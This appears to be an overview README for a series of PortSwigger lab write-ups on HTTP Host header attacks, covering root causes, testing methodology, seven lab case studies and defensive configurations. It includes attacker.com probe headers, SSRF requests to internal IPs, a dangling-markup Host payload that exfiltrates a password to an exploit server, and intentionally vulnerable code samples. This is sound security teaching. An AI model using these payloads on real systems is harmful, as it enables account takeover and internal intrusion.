




Welcome to the **HTTP Host Header Attacks** research series within the **PortSwigger Web Security Academy** writeup collection.

In modern web application architectures, the `Host` request header is mandatory under HTTP/1.1 and HTTP/2 (represented via the `:authority` pseudo-header). Standardized under **RFC 2068, RFC 2616, and RFC 7230**, its fundamental purpose is to enable **Name-based Virtual Hosting**—allowing multiple independent domains and web applications to be hosted on a single physical server and IP address.

However, because the `Host` header is entirely controlled by the client, any implicit trust placed in this value by backend applications, combined with parsing discrepancies (parser differentials) between intermediary proxies (Reverse Proxies, Load Balancers, Web Caches, API Gateways) and backend servers, creates severe security vulnerabilities: **Password Reset Poisoning (unauthenticated account takeover), Web Cache Poisoning (widespread stored XSS), Routing-based SSRF (internal network penetration), Access Control Bypasses, and Dangling Markup Credential Exfiltration**.

---

## 1. Series Challenge Index & Exploit Matrix

The table below summarizes the 7 lab challenges ranging from Apprentice to Expert levels, detailing their primary vulnerability mechanisms, tools, and real-world exploitation impact:

| Lab | Challenge Name | Level | Primary Vulnerability Mechanism | Exploit Impact |
| :---: | :--- | :---: | :--- | :--- |
| **01** | [Basic password reset poisoning](lab-01-basic-password-reset-poisoning/) | Apprentice | Dynamic Host Header reflection in password reset email link construction | Token harvesting via Exploit Server access logs $\to$ Complete Account Takeover (Carlos). |
| **02** | [Host header authentication bypass](lab-02-host-header-authentication-bypass/) | Apprentice | Naive string-matching access control relying on `Host: localhost` | Administrative boundary bypass at `/admin` $\to$ Unauthorized user deletion. |
| **03** | [Web cache poisoning via ambiguous requests](lab-03-web-cache-poisoning-via-ambiguous-requests/) | Practitioner | Duplicate Host header parser differential between Cache Proxy and Backend | Cache key mapped to legitimate host while serving attacker JavaScript $\to$ Persistent Stored XSS on homepage. |
| **04** | [Routing-based SSRF](lab-04-routing-based-ssrf/) | Practitioner | Reverse proxy dynamic upstream routing based on unsanitized Host header | Burp Intruder brute-force across `192.168.0.0/24` $\to$ Access internal admin portal at `.112` and delete user. |
| **05** | [SSRF via flawed request parsing](lab-05-ssrf-via-flawed-request-parsing/) | Practitioner | Parser differential between Absolute Request-URI and Host header | Front-end inspects absolute URL authority, backend routes via Host $\to$ WAF bypass, SSRF to `.211`. |
| **06** | [Host validation bypass via connection state attack](lab-06-host-validation-bypass-via-connection-state-attack/) | Practitioner | TCP Keep-Alive connection state dependency flaw in reverse proxy | Single-connection grouping sends trusted request followed by internal host request $\to$ Access `.1` admin panel. |
| **07** | [Password reset poisoning via dangling markup](lab-07-password-reset-poisoning-via-dangling-markup/) | Expert | Reverse proxy port parsing regex defect combined with unencoded HTML reflection | Port segment injection consumes email body $\to$ Cleartext temporary password exfiltration without user interaction. |

---

## 2. Root Cause Analysis

Across all 7 experimental scenarios, HTTP Host Header vulnerabilities stem from the erosion of trust boundaries between infrastructure tiers and semantic discrepancies in RFC implementation:



### 2.1. Implicit Trust in Client-Controlled Metadata
The most pervasive root cause is the flawed assumption by web developers and application frameworks that the `Host` header represents the server's canonical hostname (`SERVER_NAME`).
- Developers frequently generate sensitive URLs (password reset links, email verification links, asset inclusion paths, canonical links) dynamically by extracting the hostname directly from incoming request headers:
  - PHP: `$_SERVER['HTTP_HOST']`
  - Java / Servlet: `request.getHeader("Host")`
  - Node.js / Express: `req.headers.host` or `req.get('host')`
  - Python / Django: `request.get_host()` (when `ALLOWED_HOSTS` is misconfigured)
- Because the `Host` header is supplied by the client and can be modified via an intercepting proxy, trusting it converts the application into an unwitting payload delivery vehicle (Labs 01 & 03).

### 2.2. Architectural Parser Differentials
In modern multi-tiered distributed architectures, an HTTP request passes through multiple intermediaries: WAFs, CDNs, Caching Proxies, Reverse Proxies, and Backend App Servers. Each tier relies on its own HTTP parsing engine:
- **Absolute Request-URI vs. Host Header (Lab 05):** According to **RFC 7230 §5.4**, when a request contains an absolute URI in the request line (`GET https://trusted.com/ HTTP/1.1`), the URI authority component **must** take precedence over and override the `Host` header. However, if the front-end proxy validates access permissions based on the request line while the backend routing dispatcher evaluates the `Host` header to determine upstream forwarding, an attacker can bypass perimeter access controls and reach arbitrary internal targets.
- **Duplicate Host Headers (Lab 03):** RFC 7230 strictly mandates that a compliant request must contain **exactly one Host header field**, and servers MUST reject duplicate headers with `400 Bad Request`. In practice, caching proxies often compute the Cache Key using the first `Host` header, while backend runtimes process the secondary `Host` header when rendering dynamic HTML templates. This differential allows an attacker to poison a legitimate cache key with malicious markup.

### 2.3. Connection-State Assumptions (Keep-Alive Socket Reuse)
To maximize throughput and eliminate TCP three-way handshake and TLS negotiation overhead, HTTP/1.1 and HTTP/2 maintain persistent TCP connections (Keep-Alive).
- A critical architectural vulnerability arises when an intermediary proxy performs **stateful security validation**: it inspects and validates the `Host` header strictly on the **initial request** of a connection, and subsequently marks the entire underlying TCP socket as trusted.
- Subsequent requests multiplexed over the exact same TCP socket bypass Host header inspection entirely, allowing an adversary to tunnel unauthorized internal hostnames into private networks (Lab 06).

### 2.4. Permissive Port Parsing & Colon-Splitting Defects
RFC 7230 specifies the syntax: `Host = uri-host [ ":" port ]`.
- Defensive filters frequently isolate the domain component using naive string splitting (e.g., `host.split(':')[0]`) and validate it against a domain whitelist, while blindly assuming whatever follows the colon is a valid port.
- When filters fail to validate that the port component is strictly a numeric integer (1–65535), an attacker can append raw HTML characters (`:'<a href=...`) directly into the port segment. If reflected into an email template without encoding, this triggers Dangling Markup injection (Lab 07).

### 2.5. Unsafe Dynamic Upstream Routing
DevOps engineers often misconfigure reverse proxies to forward upstream requests dynamically based on the incoming `Host` string:
```nginx
# VULNERABLE DYNAMIC UPSTREAM ROUTING CONFIGURATION
location / {
    proxy_pass http://$http_host;
}
```
This configuration inadvertently converts the reverse proxy into an **Open Forward Proxy** for the internal network. Because the proxy resides in a privileged network segment (DMZ) with direct access to private subnets (RFC 1918), external attackers can leverage it to scan internal hosts and execute Routing-based SSRF (Lab 04).

### 2.6. Naive Perimeter Access Control
Developers sometimes attempt to protect administrative or debug endpoints by verifying whether the client is accessing the application locally:
```javascript
if (req.headers['host'] === 'localhost') {
    renderAdminPanel();
}
```
Evaluating client identity based on application-layer headers rather than transport-layer socket attributes (`remote_addr`) allows external Internet clients to trivially spoof `Host: localhost` and bypass authentication (Lab 02).

---

## 3. Testing Methodology & Mindset

A Senior Security Engineer approaches HTTP Host Header testing with a foundational principle: **"Never trust client-supplied protocol metadata; probe every discrepancy across intermediate parsers."**

The testing workflow follows a rigorous 4-phase methodology:



### Phase 1: Reconnaissance & Reflection Mapping
1. **Response Reflection Auditing:**
   - Inspect response bodies for reflection of the `Host` value: `<link rel="canonical" href="...">`, `<script src="//[HOST]/...">`, `<form action="//[HOST]/...">`, `<base href="...">`, and `Location: https://[HOST]/...` redirect headers.
2. **Email Workflow Discovery:**
   - Map password reset, email verification, account registration, and alert notification workflows.
   - Verify whether outgoing emails construct absolute links dynamically from the `Host` header or rely on static configuration.
3. **Infrastructure & Cache Fingerprinting:**
   - Identify caching headers: `X-Cache`, `Age`, `CF-Cache-Status`, `X-Varnish`.
   - Identify internal endpoints via `robots.txt`, sitemaps, Swagger specifications, or stack traces disclosing internal IP ranges (`10.x.x.x`, `172.16.x.x`, `192.168.x.x`).

### Phase 2: Differential Probes & Header Manipulation
Conduct systematic tampering across individual requests:
1. **Basic Host Tampering & Override Headers:**
   - Test external domains (e.g., Burp Collaborator) and local identifiers (`localhost`, `127.0.0.1`, `[::1]`).
   - Probe proxy override headers:
     ```http
     X-Forwarded-Host: attacker.com
     X-Host: attacker.com
     X-Forwarded-Server: attacker.com
     X-HTTP-Host-Override: attacker.com
     Forwarded: host=attacker.com
     ```
2. **Duplicate Host Header Probes:**
   - Transmit conflicting Host headers to detect RFC 7230 non-compliance:
     ```http
     GET / HTTP/1.1
     Host: target.com
     Host: attacker.com
     ```
3. **Absolute Request-URI Probes:**
   - Combine absolute URIs with tampered Host headers:
     ```http
     GET https://target.com/ HTTP/1.1
     Host: internal-host
     ```
4. **Port & Special Character Injections:**
   - Audit port parsing logic:
     ```http
     Host: target.com:8080
     Host: target.com:badport
     Host: target.com:@attacker.com
     Host: target.com:'<test>
     ```
5. **Connection Reuse Probes (Keep-Alive):**
   - In Burp Repeater, use tab grouping with **Send group (single connection)**:
     - Request 1: Valid domain (establishes trusted TCP socket).
     - Request 2: Tampered/internal Host header over the existing socket.

### Phase 3: Behavioral & Routing Analysis
Evaluate server responses to classify the vulnerability:
- **HTTP 200 / 302 with Reflected Value:** The backend trusts the `Host` header and renders it directly.
- **HTTP 403 Forbidden:** Front-end proxy or WAF enforces domain whitelisting. Transition to Absolute-URI bypass (Lab 05) or Connection State bypass (Lab 06).
- **HTTP 504 Gateway Timeout:** The reverse proxy is attempting to resolve DNS or initiate a TCP connection to the injected Host. **This is a primary indicator of Routing-based SSRF** (Lab 04).
- **Out-of-Band Callbacks:** Burp Collaborator logs DNS or HTTP interactions, proving outbound request dispatch.

### Phase 4: Weaponization & Exploit Chaining
Deploy targeted attack chains based on discovered behaviors:
- Reflected in emails $\to$ Execute **Password Reset Poisoning** or **Dangling Markup Injection**.
- Caching proxy present $\to$ Execute **Web Cache Poisoning** for persistent Stored XSS.
- Dynamic upstream routing active $\to$ Automate subnet scanning via Burp Intruder across `192.168.0.0/24`, bypass CSRF, and compromise internal management interfaces.

---

## 4. Attack Taxonomy & Technical Case Studies



### 4.1. Classic Password Reset Poisoning (Lab 01)
- **Mechanism:** The backend constructs the password reset URL dynamically from the request's `Host` header:
  ```java
  String resetUrl = "https://" + request.getHeader("Host") + "/forgot-password?temp-forgot-password-token=" + token;
  ```
- **Exploitation:** The attacker intercepts the password reset request for victim `carlos` and replaces the header with `Host: exploit-server.net`. The application dispatches an email containing the poisoned link. When Carlos clicks the link, the secret token is logged in the Exploit Server access logs, enabling full account takeover.

### 4.2. Localhost Authentication Bypass (Lab 02)
- **Mechanism:** Access control for `/admin` naively checks if `Host == "localhost"`.
- **Exploitation:** An external attacker sends a request to the server's public IP with `Host: localhost`. The front-end forwards the request unmodified, the backend evaluates the header as local, and administrative privileges are granted to delete user `carlos`.

### 4.3. Web Cache Poisoning via Duplicate Host Headers (Lab 03)
- **Mechanism:** An ambiguous request with duplicate Host headers causes an architectural desync:
  ```http
  GET / HTTP/1.1
  Host: victim-lab.net
  Host: exploit-server.net
  ```
- **The Desync:**
  - Front-end Cache Proxy computes the Cache Key from Host 1 (`victim-lab.net`).
  - Backend Application renders the HTML template using Host 2 (`exploit-server.net`), generating `<script src="//exploit-server.net/resources/js/tracking.js">`.
- **Exploitation:** The attacker stages malicious JavaScript containing `alert(document.cookie)` on the Exploit Server. The cached response serves the attacker's script to all legitimate visitors visiting the homepage.

### 4.4. Routing-based SSRF into Private Subnets (Lab 04)
- **Mechanism:** The reverse proxy routes upstream connections dynamically using the raw `Host` header string without enforcing a whitelist.
- **Exploitation:**
  - Validation: Sending a Burp Collaborator domain triggers DNS and HTTP callbacks, proving dynamic outbound routing.
  - Subnet Scan: Using Burp Intruder, the attacker iterates through `192.168.0.§0-255§`. IP addresses without listening services return `504 Gateway Timeout`. At `192.168.0.112`, the server returns `302 Found` redirecting to `/admin`.
  - Action: The attacker extracts the CSRF token from the admin HTML and dispatches `POST /admin/delete` with `Host: 192.168.0.112` to delete `carlos`.

### 4.5. SSRF via Flawed Request Parsing (Lab 05)
- **Mechanism:** The front-end blocks requests containing internal IP Host headers with `403 Forbidden`. However, when an absolute URL is supplied in the request line, the front-end validates only the domain in the request line, while the backend routes traffic based on the `Host` header:
  ```http
  GET https://vulnerable-lab.net/ HTTP/2
  Host: 192.168.0.211
  ```
- **Exploitation:** The hybrid request bypasses front-end filtering. Burp Intruder pinpoints the internal admin host at `.211`, allowing the attacker to submit a deletion request and eliminate user `carlos`.

### 4.6. Host Validation Bypass via Connection State Attack (Lab 06)
- **Mechanism:** The reverse proxy validates the `Host` header strictly on the initial request of a persistent TCP connection (Keep-Alive), assuming subsequent requests on the same socket are inherently safe.
- **Exploitation:** Using Burp Repeater's **Send group (single connection)** mode:
  - *Request 1:* `GET / HTTP/1.1` with `Host: victim-lab.net` (Validates successfully; marks socket as trusted).
  - *Request 2:* `GET /admin HTTP/1.1` with `Host: 192.168.0.1` (Sent immediately down the established socket $\to$ Bypasses proxy validation $\to$ Reaches internal admin panel).

### 4.7. Dangling Markup Injection via Port Segment (Lab 07)
- **Mechanism:** The reverse proxy extracts the hostname by splitting on the colon (`host.split(':')[0]`) and validates it against the domain whitelist, skipping integer checks on the port component. The backend reflects the entire Host string verbatim into an email template enclosed in single quotes:
  ```html
  <p>Please <a href='https://victim.net:[INJECTION]/login'>click here</a>...</p>
  <p>Your new password is: [SECRET_PASSWORD]</p>
  ```
- **Exploitation:** The attacker injects an unclosed anchor tag into the port segment:
  ```text
  Host: victim-lab.net:'<a href="//exploit-server/?
  ```
- **Markup Swallowing:** The single quote (`'`) closes the original `href` attribute. The new `<a href="//exploit-server/?` tag opens with a double quote (`"`). Because the email parser searches for the next matching double quote, it swallows all intermediate characters—including the closing tags and the generated cleartext temporary password—into the query string. When Carlos opens the email and interacts with the link, his temporary password is transmitted directly to the Exploit Server access logs.

---

## 5. Defense-in-Depth Hardening Blueprint

Securing modern web architectures against Host header vulnerabilities requires coordinated defenses across infrastructure, proxies, and application code:



### 5.1. Reverse Proxy & WAF Hardening

#### 1. Define Default Catch-All Virtual Hosts
Every reverse proxy must declare a default server block to drop or reject requests presenting unrecognized or unmapped hostnames:

**Nginx Configuration:**
```nginx
# Default Catch-All Server Block
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    
    # Drop connection immediately without response (HTTP 444)
    # or return 400 Bad Request
    return 444;
}

# Explicit Allowed Virtual Host
server {
    listen 80;
    listen 443 ssl;
    server_name example.com www.example.com;

    location / {
        # NEVER use dynamic routing: proxy_pass http://$http_host;
        # Always route to static, pre-defined upstream clusters
        proxy_pass http://backend_cluster;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-For $remote_addr;
    }
}
```

**Apache HTTP Server Configuration:**
```apache
# Default Catch-All VirtualHost
<VirtualHost *:80>
    ServerName default
    <Location />
        Require all denied
    </Location>
</VirtualHost>

# Whitelisted Production VirtualHost
<VirtualHost *:80>
    ServerName example.com
    ServerAlias www.example.com
    DocumentRoot /var/www/html
</VirtualHost>
```

#### 2. Strict Port Validation & RFC 7230 Compliance
- Enforce strict adherence to **RFC 7230 §5.4**: If an incoming request contains more than one `Host` header, reject it immediately with `400 Bad Request`.
- Validate that any port specified following a colon contains exclusively numeric digits `[0-9]` within the range `1 - 65535`. Immediately reject any special characters (`<`, `>`, `'`, `"`, whitespace).

#### 3. Request Target Normalization
Ensure that the front-end proxy synchronizes the request target format. If a client transmits an absolute URL (`GET https://example.com/admin HTTP/1.1`), the proxy must extract the authority component to overwrite the `Host` header or normalize the URI into origin-form (`GET /admin HTTP/1.1`) before forwarding downstream.

#### 4. Stateless Per-Request Validation on Persistent Connections
Reverse proxies must never cache validation state across persistent TCP connections. Every discrete HTTP request multiplexed over a Keep-Alive connection must undergo independent Host header parsing and whitelist verification.

### 5.2. Application-Tier Remediation

#### 1. Use Static Environment Configurations for Canonical URLs
Never derive base URLs from `request.getHeader("Host")` or `$_SERVER['HTTP_HOST']`. Bind canonical domains to immutable environment variables:

**Java / Spring Boot:**
```java
@Service
public class PasswordResetService {
    @Value("${app.base-url}") // Loaded from static configuration: https://example.com
    private String baseUrl;

    public void sendResetEmail(User user, String token) {
        String resetLink = baseUrl + "/forgot-password?token=" + URLEncoder.encode(token, StandardCharsets.UTF_8);
        emailClient.send(user.getEmail(), "Password Reset Request", resetLink);
    }
}
```

**Python / Django:**
Enforce strict hostname whitelisting in `settings.py`:
```python
# settings.py
ALLOWED_HOSTS = ['example.com', 'www.example.com']
USE_X_FORWARDED_HOST = False  # Only enable if reverse proxy sanitizes headers
```

#### 2. Use Root-Relative Paths for Static Assets
Prevent Web Cache Poisoning by referencing static resources using root-relative paths rather than protocol-relative or absolute URLs:
```html
<!-- SECURE: Root-relative path -->
<script type="text/javascript" src="/resources/js/tracking.js"></script>

<!-- INSECURE: Dynamic Host-dependent path -->
<!-- <script type="text/javascript" src="//[HOST]/resources/js/tracking.js"></script> -->
```

#### 3. Contextual HTML Entity Encoding
All dynamic data reflected from HTTP headers into HTML templates or email bodies must undergo contextual HTML entity encoding (`<` to `&lt;`, `>` to `&gt;`, `'` to `&#39;`, `"` to `&quot;`) to neutralize Dangling Markup injection.

### 5.3. Network Segmentation & Zero-Trust Architecture
1. **Network Segmentation:** Isolate reverse proxies within dedicated DMZs. Enforce egress firewall rules preventing proxies from initiating connections to internal management subnets or cloud metadata endpoints (`169.254.169.254`).
2. **Zero-Trust Access Control:** Internal microservices and administrative endpoints must never trust incoming traffic solely based on network origin or reverse proxy source IPs. Require mutual TLS (mTLS), cryptographically validated session tokens, or API gateway authentication for all internal operations.

---

> [!TIP]
> **Key Protocol Standards & References:**
> - [RFC 7230: Hypertext Transfer Protocol (HTTP/1.1) - Message Syntax and Routing (Section 5.4: Host)](https://datatracker.ietf.org/doc/html/rfc7230#section-5.4)
> - [PortSwigger Research: Cracking the lens - targeting HTTP's hidden surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-surface)
> - [OWASP Top 10: Server-Side Request Forgery (SSRF) & Security Misconfiguration](https://owasp.org/Top10/)
